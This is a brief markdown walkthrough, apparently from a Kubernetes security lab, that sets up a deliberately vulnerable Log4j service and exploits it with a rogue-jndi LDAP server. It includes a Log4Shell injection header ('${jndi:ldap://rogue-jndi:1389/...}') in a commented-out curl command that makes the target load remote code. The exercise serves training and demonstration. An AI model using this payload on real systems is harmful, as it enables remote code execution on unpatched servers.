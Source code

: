 # Setup
```bash
kubectl apply -f https://k8s.adriansoftware.de/attacks/01/setup.yaml
```

ip route | grep default
default via 192.168.122.1 dev enp1s0  src 192.168.122.228  metric 100 
curl 192.168.122.1:6066

keep hostNetwork enabled so IP gateway stays 192.168.122.1
# Attack

Run rogue jndi docker on host outside k8s

<!-- ### run on master node
```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
``` -->

```bash
sudo docker run -p 6066:1389 --rm quay.io/vicenteherrera/rogue-jndi 
```

# Confirm
> not part of attack. stop monitoring before running. -> file created in /root
```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```
